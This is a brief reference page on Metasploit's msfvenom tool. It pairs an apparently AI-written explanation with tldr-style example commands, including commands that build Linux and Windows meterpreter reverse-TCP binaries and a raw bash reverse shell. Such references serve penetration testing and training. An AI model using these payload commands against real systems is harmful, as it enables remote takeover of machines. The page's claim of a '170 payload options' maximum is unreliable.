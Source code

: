 # msfvenom 
## chatgpt 
Msfvenom is one of the core tools in the Metasploit Framework. It is a command-line tool used to generate various payloads for use in exploitation and post-exploitation scenarios.

The command is used to create payloads with a specific combination of payload options. Msfvenom has the ability to produce a maximum of 170 payload options for various operating systems and architectures.

The general syntax of the command is:

msfvenom [payload options] -o [output file]

The payload options usually include the payload type (e.g. reverse shell payload or meterpreter payload), the operating system (e.g. Windows, Linux, etc.), the architecture (e.g. x86 or x64), and any additional options (e.g. the IP address and port number of the attacker's machine).

The -o option specifies the output file. The resulting payload is written to this file, which can then be used in an exploit.

Msfvenom is an incredibly versatile tool that can be used in a wide variety of scenarios. It is frequently used by penetration testers and security researchers for vulnerability testing and analyzing security of different applications or networks. 

## tldr 
 
> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf -o {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe -o {{path/to/binary.exe}}`

- Create a raw bash with a reverse TCP handler:

`msfvenom -p cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} -f raw`
